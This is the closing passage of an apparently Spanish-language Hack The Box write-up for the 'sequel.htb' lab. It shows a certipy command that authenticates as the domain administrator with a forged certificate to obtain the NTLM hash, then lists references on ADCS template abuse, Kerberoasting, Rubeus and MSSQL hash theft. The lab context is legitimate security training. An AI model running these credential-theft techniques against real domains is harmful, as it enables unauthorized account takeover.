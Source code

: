 Ahora si podemos volver a ejecutar y podremos obtener el hash `NTLM`.

```python
❯ certipy auth -pfx 'administrator.pfx' -u 'administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202
```

![20240313140909.png](20240313140909.png)

## Usuario : administrator

![20240313141342.png](20240313141342.png)


# Recursos:

- [https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx](https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx)
- [https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-adcs/](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-adcs/)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained)
- [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)
- [https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any)
- [https://hacktricks.boitatech.com.br/windows/active-directory-methodology/kerberoast](https://hacktricks.boitatech.com.br/windows/active-directory-methodology/kerberoast)
- [https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt)
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)
